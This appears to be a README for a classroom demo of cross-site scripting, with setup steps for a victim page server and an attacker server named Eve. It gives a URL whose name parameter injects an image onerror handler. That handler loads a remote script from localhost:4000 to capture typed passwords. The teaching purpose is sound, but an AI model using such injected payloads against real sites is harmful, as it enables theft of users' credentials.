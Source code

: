 # XSS example for Security 2

Extremely simple example of an XSS attack. This case is used to see security analysis and protocols working in practice. 

### Installing and Running

Install with npm
```
npm install
```

Start two servers: the server hosting the page and a malicious server.
```
node server/server.js
node attacker/eve.js
```

Then open a browser, navigate to the webpage on ```localhost:3000?name=John``` and see the name John displayed. Then try visiting
```
localhost:3000?name=</p><img src="x" onerror="$.getScript('http://localhost:4000/malicious.js')"><p>
```
and type in your password. Eve will be listening!
